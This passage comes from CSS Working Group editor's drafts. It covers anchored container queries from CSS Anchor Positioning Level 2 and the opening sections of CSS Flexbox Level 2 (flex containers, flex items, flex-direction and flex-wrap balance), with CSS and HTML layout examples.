### 1. Delta specification {#css-anchor-position-2:delta}

This is a delta specification, meaning that it currently contains only the differences from CSS Anchor Positioning Level 1 [CSS-ANCHOR-POSITION-1].

### 2. Container Queries for Anchor Positioning {#css-anchor-position-2:anchored-container-queries}

This section extends container queries from [css-conditional-5] to allow querying certain aspects of elements using anchor positioning.

#### 2.1. Extending `container-type` with `anchored` {#css-anchor-position-2:container-type-anchored}

This specification extends the `container-type` property defined in [CSS Conditional 5 § 5.1 Creating Query Containers: the container-type property](#css-conditional-5:container-type) with a new `anchored` keyword. `anchored` can be combined with existing container types such as `scroll-state` and `size`:

```css
normal | [ [ size | inline-size ] || scroll-state || anchored ]
```

****anchored****

: Establishes a query container for container queries, allowing for descendants of an anchor positioned element to be styled based on certain features of the anchoring. (Currently, limited to which of the `position-try-fallbacks` are applied, if any.)

  The `anchored` container-type applies style containment to the query container.

  > **Note:** Style containment is necessary to avoid a layout cycle for the following case using counters:
  >
  > - We have an `anchored` container
  > - A counter is incremented by a descendant of the anchored container based on a fallback query.
  > - An in-flow element, following the anchored container in tree order, generates content, with the counter, affecting the size of the in-flow element.
  > - The in-flow element affects the position / size of the anchor element. In fact, the in-flow may be the anchor element itself.
  > - The changed position / size of the anchor element may change which fallback is chosen, which in turn affects the anchored query evaluation, hence the counter increment.

> **Example:** A container can be just `anchored`, or combined with other container types:
>
> ```css
> #anchored { container-type: anchored; }
> #anchored-size { container-type: anchored inline-size; }
> ```

#### 2.2. Extending `@container` syntax for `anchored` queries {#css-anchor-position-2:container-rule-anchored}

To query an `anchored` container, a new `anchored()` function is added to the `@container` syntax. It extends the container query syntax by adding the following production to the '`<query-in-parens>`' grammar:

```css
<query-in-parens> = ...
                  | anchored( <anchored-query> )

<anchored-query> = not <anchored-in-parens>
                | <anchored-in-parens> [ [ and <anchored-in-parens> ]* | [ or <anchored-in-parens> ]* ]
                | <anchored-feature>
<anchored-in-parens> = ( <anchored-query> )
                    | ( <anchored-feature> )
                    | <general-enclosed>
```

#### 2.3. Anchored Container Features {#css-anchor-position-2:anchored-container}

##### 2.3.1.  Applied `position-try-fallbacks`: the `fallback` feature {#css-anchor-position-2:anchored}

| Field | Value |
| --- | --- |
| Name: | **fallback** |
| For: | `@container` |
| Value: | none \| [ [`<dashed-ident>` \|\| `<try-tactic>`] \| `<position-area-query>` ] |
| Type: | discrete |

The `fallback` container feature queries whether an anchor positioned element has any of its computed `position-try-fallbacks` options applied.

****none****

: The `anchored` container does not have any `position-try-fallbacks` applied.

**`<dashed-ident>` || `<try-tactic>`**

: The `anchored` container matches a combination of `<dashed-ident>` and `<try-tactic>` applied from `position-try-fallbacks`. If any of the `<dashed-ident>` or `<try-tactic>` are left out of the query value, they need to be left out in the applied value from `position-try-fallbacks`, and vice versa, in order to match.

  The `<dashed-ident>` try rule name is not considered to be a tree-scoped name for the sake of matching `fallback`.

  The order of `<try-tactic>`s is significant. For instance `flip-start flip-block` is not the same as `flip-block flip-start`. Hence, the order must match for `fallback` queries.

**`<position-area-query>`**

: The `anchored` container has a `<position-area>` applied from `position-try-fallbacks`. The query matches if the applied `<position-area>` from the fallback and the query value represent the same physical area. That is, `block-start` will match `top` when the `writing-mode` is `horizontal-tb`.

  A query value of `any` always matches for the given axis.

> **Example:** Add an arrow whose direction depends on whether an element is positioned to the left or right of its anchor:
>
> ```css
> #container {
>   container-type: anchored;
>   position: absolute;
>   position-anchor: --a;
>   position-area: left;
>   position-try-fallbacks: right;
>   &::before { content: ">"; }
>
>   @container anchored(fallback: right) {
>     &::before { content: "<"; };
>   }
> }
> ```

> **Example:** Matching named fallback option with '`<try-tactic>`':
>
> ```css
> .anchored {
>   container-type: anchored;
>   position-try-fallbacks: --foo, --bar flip-inline;
>
>   @container anchored(fallback: --bar flip-inline) {
>     /* Applies if the '--bar' fallback applies */
>     .inner { background-color: green; }
>   }
>   @container anchored(fallback: --bar) {
>     /* Does not apply because the try-tactic also must match */
>     .inner { background-color: red; }
>   }
> }
> ```

> **Example:** Matching '`<position-area>`' fallback option in vertical `writing-mode`:
>
> ```css
> .anchored {
>   container-type: anchored;
>   position-anchor: --a;
>   position-try-fallbacks: right;
>   writing-mode: vertical-rl;
>
>   @container anchored(fallback: self-block-start) {
>     /* Applies if the 'right' fallback applies since block-start is 'right'
>         in 'vertical-rl'. */
>     .inner { background-color: green; }
>   }
> }
> ```

> **Example:** Matching '`<position-area>`' fallback option with `any`:
>
> ```css
> .anchored {
>   container-type: anchored;
>   position-anchor: --a;
>   position-try-fallbacks: bottom right;
>   writing-mode: vertical-rl;
>
>   @container anchored(fallback: bottom any) {
>     /* Applies because 'any' matches 'right'. */
>     .inner { color: lime; }
>   }
>   @container anchored(fallback: right) {
>     /* Applies because implicit 'any' in the vertical axis matches 'bottom'. */
>     .inner { background-color: green; }
>   }
> }
> ```

##### 2.3.2.  Syntax of `<position-area-query>` Values {#css-anchor-position-2:position-area-query-syntax}

Values for querying position-area fallbacks have the same syntax as `<position-area>`, with an additional `any` keyword added to every production:

```css
<position-area-query> = [
  [ left | center | right | span-left | span-right
  | x-start | x-end | span-x-start | span-x-end
  | self-x-start | self-x-end | span-self-x-start | span-self-x-end
  | span-all | any ]
  ||
  [ top | center | bottom | span-top | span-bottom
  | y-start | y-end | span-y-start | span-y-end
  | self-y-start | self-y-end | span-self-y-start | span-self-y-end
  | span-all | any ]
|
  [ block-start | center | block-end | span-block-start | span-block-end | span-all | any ]
  ||
  [ inline-start | center | inline-end | span-inline-start | span-inline-end
  | span-all | any ]
|
  [ self-block-start | center | self-block-end | span-self-block-start
  | span-self-block-end | span-all | any ]
  ||
  [ self-inline-start | center | self-inline-end | span-self-inline-start
  | span-self-inline-end | span-all | any ]
|
  [ start | center | end | span-start | span-end | span-all | any ]{1,2}
|
  [ self-start | center | self-end | span-self-start | span-self-end | span-all | any ]{1,2}
]
```

****any****

: `any` can be used for one or both of the axes. It is ambiguous about which axis it refers to, and is handled like other ambiguous keywords for '`<position-area>`' such as `start` or `center` when it comes to assigning axis and duplicating single keyword values.

****start**, **end**, **self-start**, **self-end** **top**, **bottom**, **left**, **right** **y-start**, **y-end**, **self-y-start**, **self-y-end** **x-start**, **x-end**, **self-x-start**, **self-x-end** **block-start**, **block-end**, **self-block-start**, **self-block-end** **inline-start**, **inline-end**, **self-inline-start**, **self-inline-end** **center** **span-start**, **span-end**, **span-self-start**, **span-self-end** **span-top**, **span-bottom**, **span-left**, **span-right** **span-y-start**, **span-y-end**, **span-self-y-start**, **span-self-y-end** **span-x-start**, **span-x-end**, **span-self-x-start**, **span-self-x-end** **span-block-start**, **span-block-end**, **span-self-block-start**, **span-self-block-end** **span-inline-start**, **span-inline-end**, **span-self-inline-start**, **span-self-inline-end** **span-all****

: See respective definitions for '`<position-area>`'.

If only a single keyword is given, '`<position-area-query>`' behaves as if the second keyword is `any` if the given keyword is unambigous about its axis. This is different from how single keywords are handled for '`<position-area>`', which behaves as if the second keyword is `span-all`. Otherwise, '<position-area-query>' behaves as '<position-area>' when it comes to assigning axes.

---

## CSS Flexible Box Layout Module Level 2 {#css-flexbox-2}

- **Shortname:** `css-flexbox-2`
- **Editor's Draft:** [https://drafts.csswg.org/css-flexbox-2/](https://drafts.csswg.org/css-flexbox-2/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2026-06-07

### 1.  Introduction {#css-flexbox-2:intro}

*This section is not normative.*

Flexbox Level 1 defined a new layout mode: **flex layout**. Flex layout is a powerful, flexible layout mode for laying out a flex container’s children (flex items) across one or several lines, either horizontally or vertically, and aligning or stretching the items within their line in various ways that are generally useful for application or whole-page layouts.

This level extends the flex layout model in a number of ways:

- `flex-wrap: balance` allows for flex items to be balanced across lines, so each line is as similar in length as possible, avoiding "jagged" lines, particularly on the last line.

#### 1.1.  Overview {#css-flexbox-2:overview}

*This section is not normative.*

Flex layout is superficially similar to block layout. It lacks many of the more complex text- or document-centric properties that can be used in block layout, such as [floats](#css2:floats) and [columns](#css-multicol-2). In return it gains simple and powerful tools for distributing space and aligning content in ways that web apps and complex web pages often need. The contents of a flex container:

- can be laid out in any [flow direction](#css-flexbox-2:flex-direction-property) (leftwards, rightwards, downwards, or even upwards!)
- can have their display order `reversed` or 'order|rearranged' at the style layer (i.e., visual order can be independent of source and speech order)
- can be laid out linearly along a single (main) axis or [wrapped](#css-flexbox-2:flex-wrap-property) into multiple lines along a secondary (cross) axis
- if multi-line, can be packed tightly onto each line (similar to standard text line-breaking) or balanced across the lines (similar to `text-wrap:pretty`)
- can [“flex” their sizes](#css-flexbox-2:flexibility) to respond to the available space
- can be [aligned](#css-flexbox-2:alignment) with respect to their container or each other on the secondary (cross)
- can be dynamically [collapsed](#css-flexbox-2:visibility-collapse) or uncollapsed along the main axis while preserving the container’s cross size

> **Example:** Here’s an example of a catalog where each item has a title, a photo, a description, and a purchase button. The designer’s intention is that each entry has the same overall size, that the photo be above the text, and that the purchase buttons are aligned at the bottom, regardless of the length of the item’s description. Flex layout makes many aspects of this design easy:
>
> - The catalog uses flex layout to lay out rows of items horizontally, and to ensure that items within a row are all equal-height. Each entry is then itself a column flex container, laying out its contents vertically.
> - Within each entry, the source document content is ordered logically with the title first, followed by the description and the photo. This provides a sensible ordering for speech rendering and in non-CSS browsers. For a more compelling visual presentation, however, `order` is used to pull the image up from later in the content to the top, and `align-self` is used to center it horizontally.
> - An [`auto` margin](#css-flexbox-2:auto-margins) above the purchase button forces it to the bottom within each entry box, regardless of the height of that item’s description.
>
> ```css
> #deals {
>   display: flex;        /* Flex layout so items have equal height  */
>   flex-flow: row wrap;  /* Allow items to wrap into multiple lines */
> }
> .sale-item {
>   display: flex;        /* Lay out each item using flex layout */
>   flex-flow: column;    /* Lay out item's contents vertically  */
> }
> .sale-item > img {
>   order: -1;            /* Shift image before other content (in visual order) */
>   align-self: center;   /* Center the image cross-wise (horizontally)         */
> }
> .sale-item > button {
>   margin-top: auto;     /* Auto top margin pushes button to bottom */
> }
> ```
>
> ```markup
> <section id="deals">
>   <section class="sale-item">
>     <h1>Computer Starter Kit</h1>
>     <p>This is the best computer money can buy, if you don’t have much money.
>     <ul>
>       <li>Computer
>       <li>Monitor
>       <li>Keyboard
>       <li>Mouse
>     </ul>
>               alt="You get: a white computer with matching peripherals.">
>     <button>BUY NOW</button>
>   </section>
>   <section class="sale-item">
>     …
>   </section>
>   …
> </section>
> ```
>
> 
>
> ### Computer Starter Kit {#css-flexbox-2:quiet-pubrules-1}
>
> This is the best computer money can buy, if you don’t have much money.
>
> - Computer
> - Monitor
> - Keyboard
> - Mouse
>
> 
>
> ### Printer {#css-flexbox-2:quiet-pubrules-2}
>
> Only capable of printing ASCII art.
>
> - Paper and ink not included.
>
> An example rendering of the code above.

#### 1.2.  Module interactions {#css-flexbox-2:placement}

This module extends the definition of the `display` property [CSS2], adding a new block-level and new inline-level display type, and defining a new type of formatting context along with properties to control its layout. None of the properties defined in this module apply to the `::first-line` or `::first-letter` pseudo-elements.

The [CSS Box Alignment Module](#css-align-3) extends and supersedes the definitions of the alignment properties (`justify-content`, `align-items`, `align-self`, `align-content`) introduced here.

#### 1.3.  Value Definitions {#css-flexbox-2:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 2.  Flex Layout Box Model and Terminology {#css-flexbox-2:box-model}

A **flex container** is the box generated by an element with a computed `display` of `flex` or `inline-flex`. In-flow children of a flex container are called **flex items** and are laid out using the flex layout model.

Unlike block and inline layout, whose layout calculations are biased to the [block and inline flow directions](#css-writing-modes-4:abstract-box), flex layout is biased to the **flex directions**. To make it easier to talk about flex layout, this section defines a set of flex flow–relative terms. The `flex-flow` value and the writing mode determine how these terms map to physical directions (top/right/bottom/left), axes (vertical/horizontal), and sizes (width/height).


An illustration of the various directions and sizing terms as applied to a `row` flex container.

**main axis main dimension**

: The **main axis** of a flex container is the primary axis along which flex items are laid out. It extends in the **main dimension**.

**main-start main-end**

: The flex items are placed within the container starting on the **main-start** side and going toward the **main-end** side.

**main size main size property**

: The **main size** of a flex container or flex item refers to its width or height, whichever is in the main dimension. Its **main size property** is either its `width` or `height` property, whichever is in the main dimension. Likewise, its **min** and **max main size properties** are its `min-width`/`max-width` or `min-height`/`max-height` properties, whichever are in the main dimension, and determine its **min**/**max main size**.

  In flex layout, the main size is controlled by the `flex` property rather than directly by the main size property.

  > **Note:** This means any references to a flex item’s used size in the main dimension (width, height, inline size, block size) refers to its post-flexing main size.

**cross axis cross dimension**

: The axis perpendicular to the main axis is called the **cross axis**. It extends in the **cross dimension**.

**cross-start cross-end**

: Flex lines are filled with items and placed into the container starting on the **cross-start** side of the flex container and going toward the **cross-end** side.

**cross size cross size property**

: The **cross size** of a flex container or flex item refers to its width or height, whichever is in the cross dimension. Its **cross size property** is either its `width` or `height` property, whichever is in the cross dimension. Likewise, its **min** and **max cross size properties** are its `min-width`/`max-width` or `min-height`/`max-height` properties, whichever are in the cross dimension, and determine its **min**/**max cross size**.

Additional sizing terminology used in this specification is defined in [CSS Intrinsic and Extrinsic Sizing](#css-sizing-3). [CSS-SIZING-3]

### 3.  Flex Containers: the `flex` and `inline-flex` `display` values {#css-flexbox-2:flex-containers}

| Field | Value |
| --- | --- |
| Name: | `display` |
| [New values:](#css-values-4:value-defs) | flex \| inline-flex |

****flex****

: This value causes an element to generate a flex container box that is block-level when placed in flow layout.

****inline-flex****

: This value causes an element to generate a flex container box that is inline-level when placed in flow layout.

A flex container establishes a new **flex formatting context** for its contents. This is the same as establishing a block formatting context, except that flex layout is used instead of block layout. For example, floats do not intrude into the flex container, and the flex container’s margins do not collapse with the margins of its contents. Flex containers form a containing block for their contents [exactly like block containers do](#css2:containing-block-details). [CSS2] The `overflow` property applies to flex containers.

Flex containers are not block containers, and so some properties that were designed with the assumption of block layout don’t apply in the context of flex layout. In particular:

- `float` and `clear` do not create floating or clearance of flex item, and do not take it out-of-flow.
- `vertical-align` has no effect on a flex item.
- the `::first-line` and `::first-letter` pseudo-elements do not apply to flex containers, and flex containers do not contribute a first formatted line or first letter to their ancestors.

If an element’s specified `display` is `inline-flex`, then its `display` property computes to `flex` in certain circumstances: the table in [CSS 2.1 Section 9.7](#css2:dis-pos-flo) is amended to contain an additional row, with `inline-flex` in the "Specified Value" column and `flex` in the "Computed Value" column.

### 4.  Flex Items {#css-flexbox-2:flex-items}

Loosely speaking, the flex items of a flex container are boxes representing its in-flow contents.

Each in-flow child of a flex container becomes a flex item, and each child text sequence is wrapped in an anonymous block container flex item. However, if the entire text sequences contains only document white space characters (i.e. characters that can be affected by the `white-space` property) it is instead not rendered (just as if its text nodes were `display:none`).

> **Example:** s of flex items:
>
> ```markup
> <div style="display:flex">
>
>     <!-- flex item: block child -->
>     <div id="item1">block</div>
>
>     <!-- flex item: floated element; floating is ignored -->
>     <div id="item2" style="float: left;">float</div>
>
>     <!-- flex item: anonymous block box around inline content -->
>     anonymous item 3
>
>     <!-- flex item: inline child -->
>     <span>
>         item 4
>         <!-- flex items do not split around blocks -->
>         <q style="display: block" id=not-an-item>item 4</q>
>         item 4
>     </span>
> </div>
> ```
>
> Flex items determined from above code block
>
> [Flex item containing `block`. Flex item containing `float`. (Anonymous, unstyleable) flex item containing `anonymous item 3`. Flex item containing three blocks in succession:  Anonymous block containing `item 4`. `<q>` element block containing `item 4`. Anonymous block containing `item 4`.](../css-flexbox-2/examples/flex-item-determination.html)
>
> Note that the inter-element white space disappears: it does not become its own flex item, even though the inter-element text *does* get wrapped in an anonymous flex item.
>
> Note also that the anonymous item’s box is unstyleable, since there is no element to assign style rules to. Its contents will however inherit styles (such as font settings) from the flex container.

A flex item establishes an independent formatting context for its contents. However, flex items themselves are **flex-level** boxes, not block-level boxes: they participate in their container’s flex formatting context, not in a block formatting context.

---

> **Note:** Authors reading this spec may want to [skip past the following box-generation and static position details](#css-flexbox-2:item-margins).

If the computed `display` value of an element’s nearest ancestor element (skipping `display:contents` ancestors) is `flex` or `inline-flex`, the element’s own `display` value is blockified. (See [CSS2.1§9.7](#css2:dis-pos-flo) [CSS2] and [CSS Display 3 § 2.7 Automatic Box Type Transformations](#css-display-4:transformations) for details on this type of `display` value conversion.)

> **Note:** Blockification still occurs even when the `flex` or `inline-flex` element does not end up generating a flex container box, e.g. when it is replaced or in a `display: none` subtree.

> **Note:** Some values of `display` normally trigger the creation of anonymous boxes around the original box. If such a box is a flex item, it is blockified first, and so anonymous box creation will not happen. For example, two contiguous flex items with `display: table-cell` will become two separate `display: block` flex items, instead of being wrapped into a single anonymous table.

In the case of flex items with `display: table`, the table wrapper box becomes the flex item, so the `align-self` property applies to it. The contents of any caption boxes contribute to the calculation of the table wrapper box’s min-content and max-content sizes. However, like `width` and `height`, the `flex` longhands apply to the table box as follows: the flex item’s final size is calculated by performing layout as if the distance between the table wrapper box’s edges and the table box’s content edges were all part of the table box’s border+padding area, and the table box were the flex item.

#### 4.1.  Absolutely-Positioned Flex Children {#css-flexbox-2:abspos-items}

As it is out-of-flow, an absolutely-positioned child of a flex container does not participate in flex layout.

The cross-axis edges of the static-position rectangle of an absolutely-positioned child of a flex container are the content edges of the flex container. The main-axis edges of the static-position rectangle are where the margin edges of the child would be positioned if it were the sole flex item in the flex container, assuming both the child and the flex container were fixed-size boxes of their used size. (For this purpose, the child’s `auto` margins are treated as zero.)

> **Example:** The effect of this is that if you set, for example, `align-self: center;` on an absolutely-positioned child of a flex container, auto offsets on the child will center it in the flex container’s cross axis.

#### 4.2.  Flex Item Margins and Paddings {#css-flexbox-2:item-margins}

The margins of adjacent flex items do not [collapse](#css2:collapsing-margins).

Percentage margins and paddings on flex items, like those on block boxes, are resolved against the inline size of their containing block, e.g. left/right/top/bottom percentages all resolve against their containing block’s *width* in horizontal writing modes.

Auto margins expand to absorb extra space in the corresponding dimension. They can be used for alignment, or to push adjacent flex items apart. See [Aligning with `auto` margins](#css-flexbox-2:auto-margins).

#### 4.3.  Flex Item Z-Ordering {#css-flexbox-2:painting}

Flex items paint exactly the same as inline blocks [CSS2], except that `order`-modified document order is used in place of raw document order, and `z-index` values other than `auto` create a stacking context even if `position` is `static` (behaving exactly as if `position` were `relative`).

> **Note:** Descendants that are positioned outside a flex item still participate in any stacking context established by the flex item.

#### 4.4.  Collapsed Items {#css-flexbox-2:visibility-collapse}

Specifying `visibility:collapse` on a flex item causes it to become a **collapsed flex item**, producing an effect similar to `visibility:collapse` on a table-row or table-column: the collapsed flex item is removed from rendering entirely, but leaves behind a "strut" that keeps the flex line’s cross-size stable. Thus, if a flex container has only one flex line, dynamically collapsing or uncollapsing items may change the flex container’s main size, but is guaranteed to have no effect on its cross size and won’t cause the rest of the page’s layout to "wobble". Flex line wrapping *is* re-done after collapsing, however, so the cross size of a flex container with multiple lines might or might not change.

Though collapsed flex items aren’t rendered, they do appear in the [formatting structure](#css2:formatting-structure). Therefore, unlike on `display:none` items [CSS2], effects that depend on a box appearing in the formatting structure (like incrementing counters or running animations and transitions) still operate on collapsed items.

> **Example:** In the following example, a sidebar is sized to fit its content. `visibility: collapse` is used to dynamically hide parts of a navigation sidebar without affecting its width, even though the widest item (“Architecture”) is in a collapsed section.
>
> Sample live rendering for example code below
>
> - [About](#css-flexbox-2:nav-about)
>
>   - [History](#)
>   - [Mission](#)
>   - [People](#)
> - [Projects](#css-flexbox-2:nav-projects)
>
>   - [Art](#)
>   - [Architecture](#)
>   - [Music](#)
> - [Interact](#css-flexbox-2:nav-interact)
>
>   - [Blog](#)
>   - [Forums](#)
>
> Hover over the menu to the left: each section expands to show its sub-items. In order to keep the sidebar width (and this main area width) stable, `visibility: collapse` is used instead of `display: none`. This results in a sidebar that is always wide enough for the word “Architecture”, even though it is not always visible.
>
> ```css
> @media (min-width: 60em) {
>   /* two column layout only when enough room (relative to default text size) */
>   div { display: flex; }
>   #main {
>     flex: 1;         /* Main takes up all remaining space */
>     order: 1;        /* Place it after (to the right of) the navigation */
>     min-width: 12em; /* Optimize main content area sizing */
>   }
> }
> /* menu items use flex layout so that visibility:collapse will work */
> nav > ul > li {
>   display: flex;
>   flex-flow: column;
> }
> /* dynamically collapse submenus when not targeted */
> nav > ul > li:not(:target):not(:hover) > ul {
>   visibility: collapse;
> }
> ```
>
> ```markup
> <div>
>   <article id="main">
>     Interesting Stuff to Read
>   </article>
>   <nav>
>     <ul>
>       <li id="nav-about"><a href="#nav-about">About</a>
>         …
>       <li id="nav-projects"><a href="#nav-projects">Projects</a>
>         <ul>
>           <li><a href="…">Art</a>
>           <li><a href="…">Architecture</a>
>           <li><a href="…">Music</a>
>         </ul>
>       <li id="nav-interact"><a href="#nav-interact">Interact</a>
>         …
>     </ul>
>   </nav>
> </div>
> <footer>
> …
> ```

To compute the size of the strut, flex layout is first performed with all items uncollapsed, and then re-run with each collapsed flex item replaced by a strut that maintains the original cross size of the item’s original line. See the [Flex Layout Algorithm](#css-flexbox-2:layout-algorithm) for the normative definition of how `visibility:collapse` interacts with flex layout.

> **Note:** Using `visibility:collapse` on any flex items will cause the flex layout algorithm to repeat partway through, re-running the most expensive steps. It’s recommended that authors continue to use `display:none` to hide items if the items will not be dynamically collapsed and uncollapsed, as that is more efficient for the layout engine. (Since only part of the steps need to be repeated when `visibility` is changed, however, 'visibility: collapse' is still recommended for dynamic cases.)

#### 4.5.  Automatic Minimum Size of Flex Items {#css-flexbox-2:min-size-auto}

> **Note:** The `auto` keyword, representing an automatic minimum size, is the new initial value of the `min-width` and `min-height` properties. The keyword was previously defined in this specification, but is now defined in the CSS Sizing module.

To provide a more reasonable default minimum size for flex items, the used value of a main axis automatic minimum size on a flex item whose computed `overflow` value is non-scrollable is its content-based minimum size; for scroll containers the automatic minimum size is zero, as usual.

The **content-based minimum size** of a flex item differs depending on whether the flex item is replaced or not:

**For replaced elements**

: Use the smaller of the content size suggestion and the transferred size suggestion (if one exists), capped by the specified size suggestion (if one exists).

**For non-replaced elements**

: Use the larger of the content size suggestion and the transferred size suggestion (if one exists), capped by the specified size suggestion (if one exists).

In either case, the size is clamped by the maximum main size if it’s definite.

The content size suggestion, specified size suggestion, and transferred size suggestion used in this calculation account for the relevant min/max/preferred size properties so that the content-based minimum size does not interfere with any author-provided constraints, and are defined below:

****specified size suggestion****

: If the item’s preferred main size is definite and not automatic, then the specified size suggestion is that size. It is otherwise undefined.

****transferred size suggestion****

: If the item has a preferred aspect ratio and its preferred cross size is definite, then the transferred size suggestion is that size (clamped by its minimum and maximum cross sizes if they are definite), converted through the aspect ratio. It is otherwise undefined.

****content size suggestion****

: The content size suggestion is the min-content size in the main axis, clamped, if it has a preferred aspect ratio, by any definite minimum and maximum cross sizes converted through the aspect ratio.

> **Note:** The content-based minimum size is a type of intrinsic size contribution, and thus the cyclic percentage provisions in [CSS Sizing 3 § 5.2 Intrinsic Contributions](#css-sizing-3:intrinsic-contribution) apply.

For the purpose of calculating an intrinsic size of the box (e.g. the box’s min-content size), a content-based minimum size causes the box’s size in that axis to become indefinite (even if e.g. its `width` property specifies a definite size). Note this means that percentages calculated against this size will behave as auto.

For any purpose *other than* calculating intrinsic sizes, a content-based minimum size (unlike an explicit `min-content`/etc minimum size) does not force the box’s size to become indefinite. However, if a percentage resolved against the box’s size *before* this minimum was applied, it must be re-resolved against the new size after it is applied.

> **Note:** that while a content-based minimum size is often appropriate, and helps prevent content from overlapping or spilling outside its container, in some cases it is not:
>
> In particular, if flex sizing is being used for a major content area of a document, it is better to set an explicit font-relative minimum width such as `min-width: 12em`. A content-based minimum width could result in a large table or large image stretching the size of the entire content area into an overflow zone, and thereby making lines of text gratuitously long and hard to read.
>
> Note also, when content-based sizing is used on an item with large amounts of content, the layout engine must traverse all of this content before finding its minimum size, whereas if the author sets an explicit minimum, this is not necessary. (For items with small amounts of content, however, this traversal is trivial and therefore not a performance concern.)

### 5.  Ordering and Orientation {#css-flexbox-2:flow-order}

The contents of a flex container can be laid out in any direction and in any order. This allows an author to trivially achieve effects that would previously have required complex or fragile methods, such as hacks using the `float` and `clear` properties. This functionality is exposed through the `flex-direction`, `flex-wrap`, and `order` properties.

> **Note:** The reordering capabilities of flex layout intentionally affect *only the visual rendering*, leaving speech order and navigation based on the source order. This allows authors to manipulate the visual presentation while leaving the source order intact for non-CSS UAs and for linear models such as speech and sequential navigation. See [CSS Display 3 § 3.1 Reordering and Accessibility](#css-display-4:order-accessibility) and the [Flex Layout Overview](#css-flexbox-2:overview) for examples that use this dichotomy to improve accessibility.

**Authors *must not* use `order` or the `*-reverse` values of `flex-flow`/`flex-direction` as a substitute for correct source ordering, as that can ruin the accessibility of the document.**

#### 5.1.  Flex Flow Direction: the `flex-direction` property {#css-flexbox-2:flex-direction-property}

| Field | Value |
| --- | --- |
| Name: | **flex-direction** |
| [Value:](#css-values-4:value-defs) | row \| row-reverse \| column \| column-reverse |
| [Initial:](#css-cascade-6:initial-values) | row |
| [Applies to:](#css-cascade-5:applies-to) | flex containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

The `flex-direction` property specifies how flex items are placed in the flex container, by setting the direction of the flex container’s main axis. This determines the direction in which flex items are laid out.

****row****

: The flex container’s main axis has the same orientation as the inline axis of the current writing mode. The main-start and main-end directions are equivalent to the inline-start and inline-end directions, respectively, of the current writing mode.

****row-reverse****

: Same as `row`, except the main-start and main-end directions are swapped.

****column****

: The flex container’s main axis has the same orientation as the block axis of the current writing mode. The main-start and main-end directions are equivalent to the block-start and block-end directions, respectively, of the current writing mode.

****column-reverse****

: Same as `column`, except the main-start and main-end directions are swapped.

> **Note:** The reverse values do not reverse box ordering: like `writing-mode` and `direction` [CSS3-WRITING-MODES], they only change the direction of flow. Painting order, speech order, and sequential navigation orders are not affected.

> **Note:** Depending on the value of `justify-content`, the reverse values of `flex-direction` can alter the initial scroll position on flex containers that are also scroll containers. See [CSS Box Alignment 3 § 5.3 Alignment Overflow and Scroll Containers](#css-align-3:overflow-scroll-position).

#### 5.2.  Flex Line Wrapping: the `flex-wrap` property {#css-flexbox-2:flex-wrap-property}

| Field | Value |
| --- | --- |
| Name: | **flex-wrap** |
| [Value:](#css-values-4:value-defs) | nowrap \| [ wrap \| wrap-reverse ] \|\| balance |
| [Initial:](#css-cascade-6:initial-values) | nowrap |
| [Applies to:](#css-cascade-5:applies-to) | flex containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

The `flex-wrap` property controls whether the flex container is single-line or multi-line, and the direction of the cross-axis, which determines the direction new lines are stacked in.

****nowrap****

: The flex container is single-line.

****wrap****

: The flex container is multi-line.

****wrap-reverse****

: The flex container is multi-line, but the lines are stacked "in reverse" (see below).

****balance****

: The flex container is multi-line, and attempts to balance the lengths of the flex lines to be as similar as possible.

  `balance` can be combined with `wrap` or `wrap-reverse` to dictate which direction the flex lines are stacked in. If neither are specified, it behaves as if `wrap` was specified.

By default, the cross-start direction of the flex container is either the inline-start or block-start direction of the flex container’s writing mode (whichever is in the cross axis) and the cross-end direction is the opposite direction of cross-start. If `wrap-reverse` is specified, the cross-start and cross-end directions are swapped.

> **Note:** Depending on the value of `align-content`, the `wrap-reverse` value of `flex-wrap` can alter the initial scroll position on flex containers that are also scroll containers. See [CSS Box Alignment 3 § 5.3 Alignment Overflow and Scroll Containers](#css-align-3:overflow-scroll-position).

#### 5.3.  Flex Direction and Wrap: the `flex-flow` shorthand {#css-flexbox-2:flex-flow-property}

| Field | Value |
| --- | --- |
| Name: | **flex-flow** |
| [Value:](#css-values-4:value-defs) | `<'flex-direction'>` \|\| `<'flex-wrap'>` |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | see individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

The `flex-flow` property is a shorthand for setting the `flex-direction` and `flex-wrap` properties, which together define the flex container’s main and cross axes.

> **Example:** Some examples of valid flows in an English (left-to-right, horizontal writing mode) document:
>
> | div { flex-flow: row; } /* Initial value. Main-axis is inline, no wrapping. (Items will either shrink to fit or overflow.) */ |  |
> | --- | --- |
> | div { flex-flow: column wrap; } /* Main-axis is block-direction (top to bottom) and lines wrap in the inline direction (rightwards). */ |  |
> | div { flex-flow: row-reverse wrap-reverse; } /* Main-axis is the opposite of inline direction (right to left). New lines wrap upwards. */ |  |

> **Note:** that the `flex-flow` directions are writing mode sensitive. In vertical Japanese, for example, a `row` flex container lays out its contents from top to bottom, as seen in this example:
>
> | English | Japanese |
> | --- | --- |
> | flex-flow: row wrap; writing-mode: horizontal-tb; | flex-flow: row wrap; writing-mode: vertical-rl; |
> |  |  |

#### 5.4.  Reordering and Accessibility: the `order` property {#css-flexbox-2:order-property}

